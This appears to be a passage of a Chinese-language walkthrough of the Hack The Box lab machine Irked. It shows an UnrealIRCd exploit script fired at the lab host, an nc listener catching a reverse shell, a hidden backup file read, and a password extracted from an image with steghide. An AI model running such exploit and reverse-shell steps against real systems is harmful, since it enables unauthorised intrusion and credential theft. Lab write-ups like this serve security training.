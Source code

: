 修改这两行代码：
```
local_ip = '10.10.14.3'  # CHANGE THIS
local_port = '4242'  # CHANGE THIS 
```

开启一个监听
> nc -lnvp 4242

执行攻击
```
┌──(root💀kali)-[~/htb/Irked]
└─# python3 irc_exp.py 10.10.10.117 6697 -payload python                                                                                                                                                                                1 ⨯
Exploit sent successfully!

```

接收到反弹shell
```
┌──(root💀kali)-[~/htb/Irked]
└─# nc -lnvp 4242                                                                                                                
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.117] 55352
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
ircd@irked:~/Unreal3.2$ whoami
whoami
ircd
ircd@irked:~/Unreal3.2$ 

```

user.txt在用户djmardov下，我们没有权限查看

## 提权到djmardov
在同级目录下有一个隐藏的backup文件
```
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss

```

看起来有点像djmardov的密码，但是不能直接切换到djmardov，可能是加密后的密文
留意这行文字
> Super elite steg backup pw

Steganography就是隐写术，通常是把信息隐藏到图片里，我们知道80端口首页有一张图片，我们把图片下载到本地，用```steghide```命令分离出隐写的文件
```
┌──(root💀kali)-[~/htb/Irked]
└─# steghide extract -sf irked.jpg
Enter passphrase: 
wrote extracted data to "pass.txt".
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/htb/Irked]
└─# cat pass.txt                                                         
Kab6h+m+bbp2J:HG

```
